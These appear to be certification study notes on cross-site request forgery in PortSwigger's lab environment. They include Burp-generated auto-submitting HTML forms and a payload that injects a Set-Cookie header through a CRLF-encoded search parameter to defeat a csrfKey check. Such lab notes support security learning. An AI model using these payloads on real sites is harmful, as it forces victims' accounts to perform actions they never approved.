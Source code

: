 ##### PortSwigger BurpSuite Certification Summary
# Cross-site Request Forgery (CSRF)
CSRF is the act of making the victim perform an action against their will/knowledge. This can be something like changing the email address of a website and three conditions need to be met:
  * There has to be a functionality the attacker wants to abuse
  * Session handling is purely cookie based
  * All request parameters are known or determinable

In BurpSuite, a HTML form can be crafted from the request relating to the desired action (`Right Click Request -> Engagement Tools -> Generate CSRF PoC`):
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac311f611e01c9fcc0242d4b001e00b5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```
which creates something like this. The auto-submit function has to be enabled while generating the HTML. 

CSRF is mostly prevented by using CSRF tokens, which will be sent with each request and relate to the user's session. This token is not predictable by an attacker and makes the attack impossible. However, this is only the case if everything is done correctly. 

One example is the **check for the CSRF token depending on the request method**. It is possible that multiple methods are accepted for the same action. Changing the method is easily doable in Burp `Send Request to Repeater -> Change Request Method -> ...`

**Omitting the token alltogether** might work too. It is also possible that **every token from any user** work (the website just checks if it's been assigned, but not to whom).

In the latter case, the exploit can have quite a few steps. Let there be two variables, the `csrf` parameter and a `csrfKey` cookie. They both are linked together, but not to the session at all. This allows an attacker to provide both values and being able to run an action independent of the session cookie set. It is therefore detrimental to set the `csrfKey` for the victim before performing an action in it's name. This can be done with a request that does not enforce the CSRF protection, such as the search function (the injection can happen anywhere on the same domain). So when everything comes together, the attacker delivers a web page to the victim with the following elements:
  * A request for the desired action that is automatically triggered
  * The `csrf` parameter in the request
  * The corresponding `csrfKey` in a separate request which sets it for the victim

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="VICTIM-HOST/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="Qlu7jqbG0dKWhtvQYQGvLf1l1Na5ME68" />
      <input type="submit" value="Submit request" />
    </form>
    <img src= "VICTIM-HOST/?search=jo%0d%0aSet-Cookie:+csrfKey=9ic4w4aZZtPqElWQZHuMzo6D78Br9PnQ" onerror="document.forms[0].submit()">
  </body>
</html>

```
This code provides all information that is usually sent with the change email request and then loads an image with the injection point for the `csrfKey` as source. This sets the cookie value for the user (note the `\r\n` and `Set-Cookie: ` ), but fails to load the image, which in return triggers the form being submitted.